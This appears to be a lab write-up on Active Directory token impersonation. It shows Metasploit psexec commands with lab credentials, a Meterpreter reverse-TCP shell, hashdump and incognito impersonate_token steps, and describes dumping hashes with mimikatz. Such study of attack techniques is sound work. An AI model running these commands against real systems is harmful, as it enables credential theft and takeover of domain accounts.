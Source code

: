 ## Introduction
![[AD_post11.png]]

## Describing token impersonation in a practical way:
1. Pop a shell and load incognito:
![[AD_post12.png]]

2. Impersonating our domain user:
![[AD_post13.png]]

3. Attempt to dump hashes as non-Domain Admin:
![[AD_post14.png]]
**Result** - We get **access denied** error.

**Alright, but what if a Domain Admin token was available?**

4. Identify the domain Administrator:
![[AD_post15.png]]

5. Impersonate our Domain Administrator:
![[AD_post16.png]]

6. Again trying to dump hashes with mimikatz:
![[AD_post17.png]]

7. We also get the kerberoas ticket grounding ticket hash:
![[AD_post18.png]]

## Token Impersonation in a lab:
1. Getting a meterpreter shell using msfconsole:
```python
┌──(kali㉿kali)-[~]
└─$ sudo msfconsole 
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > options
msf6 exploit(windows/smb/psexec) > set RHOSTS 192.168.1.16
RHOSTS => 192.168.1.16
msf6 exploit(windows/smb/psexec) > set SMBDOMAIN marvel.local
SMBDOMAIN => marvel.local
msf6 exploit(windows/smb/psexec) > set SMBPASS Password1
SMBPASS => Password1
msf6 exploit(windows/smb/psexec) > set SMBUSER fcastle
SMBUSER => fcastle
msf6 exploit(windows/smb/psexec) > show targets
msf6 exploit(windows/smb/psexec) > set TARGET 2
TARGET => 2
msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > run
```

2. Doing some meterpreter stuffs:
```python
meterpreter > hashdump
meterpreter > getuid
meterpreter > sysinfo
```

3. Loading incognito extension for token impersonation:
```python
meterpreter > load incognito
meterpreter > help
```

4. Listing available tokens on system:
![[AD_post19.png]]

5. Impersonate fcastle token
```python
meterpreter > impersonate_token marvel\\fcastle
[+] Delegation token available
[+] Successfully impersonated user MARVEL\fcastle
```

6. Getting a shell as fcastle
![[AD_post20.png]]
